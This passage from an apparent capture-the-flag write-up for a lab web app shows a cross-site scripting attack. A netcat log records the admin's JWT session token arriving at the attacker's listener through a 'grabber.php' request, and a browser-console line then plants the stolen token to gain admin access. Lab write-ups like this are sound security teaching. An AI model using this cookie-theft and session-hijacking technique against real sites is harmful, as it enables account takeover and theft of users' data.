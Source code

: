 ![9](/assets/images/thm/marketplace/9.png)
And if we check our netcat listener, this time we got the admin's cookie.

```console
Connection received on 10.2.3.202 36090
Connection received on 10.10.38.49 51870
GET /XSS/grabber.php?c=token=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VySWQiOjIsInVzZXJuYW1lIjoibWljaGFlbCIsImFkbWluIjp0cnVlLCJpYXQiOjE2MDMwMzk1MjJ9.0Mu4w5H8_TaTJQjtFOt4mHRYEkzxlK82npxm5xwj_IA HTTP/1.1
Host: 10.2.3.202:8000
Connection: keep-alive
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) HeadlessChrome/85.0.4182.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://localhost:3000/item/4
Accept-Encoding: gzip, deflate
Accept-Language: en-US
```

Now we can change the value of our cookie with admin's cookie.
### On browser console
```js
document.cookie = "token=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VySWQiOjIsInVzZXJuYW1lIjoibWljaGFlbCIsImFkbWluIjp0cnVlLCJpYXQiOjE2MDMwMzk1MjJ9.0Mu4w5H8_TaTJQjtFOt4mHRYEkzxlK82npxm5xwj_IA"
```

### Visiting /admin
![10](/assets/images/thm/marketplace/10.png)
We are now admin, we got our first flag and we can see bunch of users information.
